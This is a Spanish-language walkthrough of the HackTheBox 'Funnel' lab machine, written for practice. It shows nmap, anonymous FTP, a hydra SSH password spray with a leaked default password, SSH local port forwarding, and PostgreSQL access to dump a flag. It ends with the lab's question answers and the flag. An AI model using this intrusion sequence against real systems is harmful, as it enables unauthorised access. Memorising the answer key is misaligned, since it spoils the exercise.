

Resolución de la máquina Funnel de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 10.129.228.195
Nmap scan report for 10.129.228.195
Nmap scan report for 10.129.228.195
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
Nos podemos conectar como anonymous a ftp y vemos un directorio lllamado mail_backup
❯ ftp 10.129.228.195
Connected to 10.129.228.195.
220 (vsFTPd 3.0.3)
Name (10.129.228.195:gato): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x 2 ftp ftp 4096 Nov 28 14:31 mail_backup
226 Directory send OK.
ftp>
Dentro de el vemos 2 archivos existentes asi que descargamos ambos y salimos
ftp> cd mail_backup
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r-- 1 ftp ftp 58899 Nov 28 14:30 password_policy.pdf
-rw-r--r-- 1 ftp ftp 713 Nov 28 14:31 welcome_28112022
226 Directory send OK.
ftp> get password_policy.pdf
local: password_policy.pdf remote: password_policy.pdf
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for password_policy.pdf (58899 bytes).
226 Transfer complete.
58899 bytes received in 0.21 secs (272.6062 kB/s)
ftp> get welcome_28112022
local: welcome_28112022 remote: welcome_28112022
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for welcome_28112022 (713 bytes).
226 Transfer complete.
713 bytes received in 0.00 secs (5.2711 MB/s)
ftp> exit
En archivo welcome es un texto donde podemos ver algunos usuarios, dice que leamos la política
❯ cat welcome_28112022
Frome: root@funnel.htb
To: optimus@funnel.htb albert@funnel.htb andreas@funnel.htb christine@funnel.htbmaria@funnel.htb
Subject:Welcome to the team!
Hello everyone,
We would like to welcome you to our team.
We think you’ll be a great asset to the "Funnel" team and want to make sure you get settled in as smoothly as possible.
We have set up your accounts that you will need to access our internal infrastracture. Please, read through the attached password policy with extreme care.
All the steps mentioned there should be completed as soon as possible. If you have any questions or concerns feel free to reach directly to your manager.
We hope that you will have an amazing time with us,
The funnel team.
El pdf nos dice que se debe cambiar la contraseña por defecto que es funnel123#!#

Podemos aplicar fuerza bruta por ssh a los usuarios usando esa contraseña usando hydra
❯ hydra -L users.txt -p 'funnel123#!#' ssh://10.129.228.195
[DATA] attacking ssh://10.129.228.195:22/
[22][ssh] host: 10.129.228.195 login: christine password: funnel123#!#
1 of 1 target successfully completed, 1 valid password found
christine no ha cambiado la contraseña nos podemos conectar por ssh y obtener una shell
❯ ssh christine@10.129.228.195
christine@10.129.228.195's password: funnel123#!#
christine@funnel:~$ id
uid=1000(christine) gid=1000(christine) groups=1000(christine)
christine@funnel:~$ hostname -I
10.129.228.195 172.17.0.1 dead:beef::250:56ff:feb9:26da
christine@funnel:~$
Dentro de la máquina podemos ver que el puerto 5432 esta abierto pero solo para el localhost
christine@funnel:~$ ss -tln
State Recv-Q Send-Q Local Address:Port Peer Address:Port Process
LISTEN 0 4096 127.0.0.53%lo:53 0.0.0.0:*
LISTEN 0 128 0.0.0.0:22 0.0.0.0:*
LISTEN 0 4096 127.0.0.1:5432 0.0.0.0:*
LISTEN 0 4096 127.0.0.1:41263 0.0.0.0:*
LISTEN 0 32 *:21 *:*
LISTEN 0 128 [::]:22 [::]:*
christine@funnel:~$
También encontramos que el servicio corriendo en el puerto 5432 del localhost es postgresql
christine@funnel:~$ ss -tl
State Recv-Q Send-Q Local Address:Port Peer Address:Port
LISTEN 0 4096 127.0.0.53%lo:domain 0.0.0.0:*
LISTEN 0 128 0.0.0.0:ssh 0.0.0.0:*
LISTEN 0 4096 127.0.0.1:postgresql 0.0.0.0:*
LISTEN 0 4096 127.0.0.1:41263 0.0.0.0:*
LISTEN 0 32 *:ftp *:*
LISTEN 0 128 [::]:ssh [::]:*
christine@funnel:~$
Podriamos intentar ingresar a la base de datos postgresql pero psql no existe en la máquina
christine@funnel:~$ psql
Command 'psql' not found, but can be installed with:
apt install postgresql-client-common
Please ask your administrator.
christine@funnel:~$
Lo que haremos es un Local Port Forwarding para con ssh traernos el puerto 5432 al localhost
❯ ssh christine@10.129.228.195 -L 5432:127.0.0.1:5432
christine@10.129.228.195's password: funnel123#!#
christine@funnel:~$
Ahora desde nuestro equipo nos podemos conectar con psql usando las credenciales de christine
❯ psql -p 5432 -h 127.0.0.1 -U christine
Contraseña para usuario christine: funnel123#!#
Digite «help» para obtener ayuda.
christine=#
Listando las bases de datos podemos ver una bastante interesante, secrets
christine=# \l
Listado de base de datos
Nombre | Dueño | Codificación | Collate | Ctype | Privilegios
-----------+-----------+--------------+------------+------------+-------------------------
christine | christine | UTF8 | en_US.utf8 | en_US.utf8 |
postgres | christine | UTF8 | en_US.utf8 | en_US.utf8 |
secrets | christine | UTF8 | en_US.utf8 | en_US.utf8 |
template0 | christine | UTF8 | en_US.utf8 | en_US.utf8 | =c/christine +
| | | | | christine=CTc/christine
template1 | christine | UTF8 | en_US.utf8 | en_US.utf8 | =c/christine +
| | | | | christine=CTc/christine
(5 filas)
christine=#
Nos conectamos a secrets y listamos las tablas podemos ver flag
christine=# \c secrets
Ahora está conectado a la base de datos «secrets» con el usuario «christine».
secrets=# \dt
Listado de relaciones
Esquema | Nombre | Tipo | Dueño
---------+--------+-------+-----------
public | flag | tabla | christine
(1 fila)
secrets=#
Dumpeamos todo de la tabla flag y podemos ver la flag finalmente
christine=# \c secrets
Ahora está conectado a la base de datos «secrets» con el usuario «christine».
secrets=# select * from flag;
value
----------------------------------
cf277664b1771217d7006acdea006db1
(1 fila)
secrets=#
Vamos con las preguntas que nos pide la web de htb para pwnear la máquina
How many TCP ports are open?
- 2
What is the name of the directory that is available on the FTP server?
- mail_backup
What is the default account password that every new member on the "Funnel" team should change as soon as possible?
- funnel123#!#
Which user has not changed their default password yet?
- christine
Which service is running on TCP port 5432 and listens only on localhost?
- postgresql
Since you can't access the previously mentioned service from the local machine, you will have to create a tunnel and connect to it from your machine. What is the correct type of tunneling to use? remote port forwarding or local port forwarding?
- Local Port Forwarding
What is the name of the database that holds the flag?
- secrets
Could you use a dynamic tunnel instead of local port forwarding? Yes or No.
- Yes
Submit root flag
- cf277664b1771217d7006acdea006db1